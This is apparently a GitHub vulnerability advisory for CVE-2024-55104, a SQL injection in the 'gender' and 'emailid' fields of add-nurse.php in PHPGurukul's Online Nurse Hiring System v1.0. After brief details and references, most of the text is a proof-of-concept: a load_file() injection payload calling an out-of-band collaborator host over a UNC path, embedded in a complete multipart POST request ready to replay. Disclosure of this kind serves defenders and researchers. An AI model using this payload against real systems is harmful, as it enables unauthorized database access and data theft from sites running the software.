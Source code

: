 # CVE-2024-55104-Online-Nurse-Hiring-System-v1.0-SQL-Injection-Vulnerability
+ Exploit Author: ugurkarakoc
# Vendor Homepage
+ https://phpgurukul.com/online-nurse-hiring-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=17826
# Overview
+ Online Nurse Hiring System  V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'gender' and 'emailid' parameter in the add-nurse.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-55104
+ Affected Version: Online-Nurse-Hiring-System-v1.0
+ Vulnerable File: /onhs/admin/add-nurse.php
+ Parameter Names: gender,emailid
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-55104
+ https://nvd.nist.gov/vuln/detail/CVE-2024-55104
# Description
+ The lack of proper input validation and sanitization on the 'gender' parameters allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database


# Proof of Concept (PoC) : 
+ ‘+(select load_file(’\\\\burp.collebtor\\rfu'))+'

```
---
POST /onhs/admin/add-nurse.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3679378316959621073617570108
Content-Length: 9410
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/onhs/admin/add-nurse.php
Cookie: PHPSESSID=lp63nma98u3lr6mke4jv8irlhv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="fullname"

tes
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="gender"

Male‘+(select load_file(’\\\\burp.collebtor\\rfu'))+'
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="emailid"

test@gmail.com
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="mobilenumber"

3242342342
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="address"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="city"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="state"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="languagesknown"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="profilepic"; filename="dog.jpg"
Content-Type: image/jpeg

-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="experience"

2
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="certificate"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="description"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="submit"


-----------------------------3679378316959621073617570108--

---
```



